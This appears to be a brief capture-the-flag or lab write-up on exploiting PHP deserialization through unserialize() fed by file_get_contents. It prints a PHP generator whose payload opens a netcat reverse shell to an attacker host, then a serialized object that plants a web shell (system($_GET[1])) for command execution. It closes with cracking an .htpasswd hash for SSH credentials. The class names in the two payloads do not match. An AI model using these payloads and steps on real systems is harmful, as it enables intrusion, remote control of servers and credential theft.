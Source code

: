 # De-serialization(php)
If there is a `unserialize` function being called with a user controlled parameter, then we can exploit php de-serialization. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable u`nserialize()` call, resulting in an arbitrary PHP object(s) injection into the application scope. In our code the application takes a file name, which gets read using PHP `file_get_contents` function. The output is then fed to php unserialize module.

```text-plain
<?php
class file
{
 public $file = 'n.php';
 public $data = '<?php shell_exec("nc -e /bin/bash 10.17.17.11 1234"); ?>';
}
echo (serialize(new file));
?>
```

run the above payload and save the serialized output as `shell.txt` and upload with [`http://10.17.17.11/shell.txt`](http://10.17.17.11/shell.txt) argument to `file_get_contents`, then run the created file `n.php` to get a reverse shell.

The payload is:

```text-plain
O:10:"FormSubmit":2:{s:9:"form_file";s:8:"test.php";s:7:"message";s:26:"<?php+system($_GET[1]);+?>";}
```

rce on /test.php?1=ls 

there's a hash file(.htpasswd), cracking it gives ssh creds